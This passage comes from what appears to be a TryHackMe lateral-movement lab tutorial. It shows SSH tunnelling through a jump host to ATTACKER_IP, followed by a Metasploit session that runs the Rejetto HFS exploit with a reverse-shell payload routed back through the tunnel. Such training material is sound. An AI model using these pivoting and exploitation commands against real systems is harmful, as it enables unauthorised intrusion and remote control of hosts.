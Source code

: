 Rejetto HFS will be listening on port 80 on THMDC, so we need to tunnel that port back to our attacker's machine through THMJMP2 using remote port forwarding. Since the attackbox has port 80 occupied with another service, we will need to link port 80 on THMDC with some port not currently in use by the attackbox. Let's use port 8888. When running ssh in THMJMP2 to forward this port, we would have to addÂ `-R 8888:thmdc.za.tryhackme.com:80`Â to our command.

For SRVPORT and LPORT, let's choose two random ports at will. For demonstrative purposes, we'll setÂ `SRVPORT=6666`Â andÂ `LPORT=7878`, but be sure to use different ports as the lab is shared with other students, so if two of you choose the same ports, when trying to forward them, you'll get an error stating that such port is already in use on THMJMP2.

To forward such ports from our attacker machine to THMJMP2, we will use local port forwarding by addingÂ `-L *:6666:127.0.0.1:6666`Â andÂ `-L *:7878:127.0.0.1:7878`Â to ourÂ sshÂ command. This will bind both ports on THMJMP2 and tunnel any connection back to our attacker machine.

Putting the whole command together, we would end up with the following:

THMJMP2: Command Prompt

```shell-session
C:\> ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N
```

**Note:**Â If you are using the AttackBox and have joined other network rooms before, be sure to select the IP address assigned to the tunnel interface facing theÂ `lateralmovementandpivoting`Â network as your ATTACKER_IP, or else your reverse shells/connections won't work properly. For your convenience, the interface attached to this network is calledÂ `lateralmovement`, so you should be able to get the right IP address by runningÂ `ip add show lateralmovement`:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/b6b6f6f3ef517c092e52c4bca4941129.png)  

Once all port forwards are in place, we can startÂ MetasploitÂ and configure the exploit so that the required ports match the ones we have forwarded through THMJMP2:

AttackBox

```shell-session
user@AttackBox$ msfconsole
msf6 > use rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell_reverse_tcp

msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 7878 
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 6666

msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

There is a lot to unpack here:

- TheÂ **LHOST**Â parameter usually serves two purposes: it is used as the IP where a listener is bound on the attacker's machine to receive a reverse shell; it is also embedded on the payload so that the victim knows where to connect back when the exploit is triggered. In our specific scenario, since THMDC won't be able to reach us, we need to force the payload to connect back to THMJMP2, but we need the listener to bind to the attacker's machine onÂ `127.0.0.1`. To this end, Metasploit provides an optional parameterÂ `ReverseListenerBindAddress`, which can be used to specify the listener's bind address on the attacker's machine separately from the address where the payload will connect back. In our example, we want the reverse shell listener to be bound to 127.0.0.1 on the attacker's machine and the payload to connect back to THMJMP2 (as it will be forwarded to the attacker machine through the SSH tunnel).
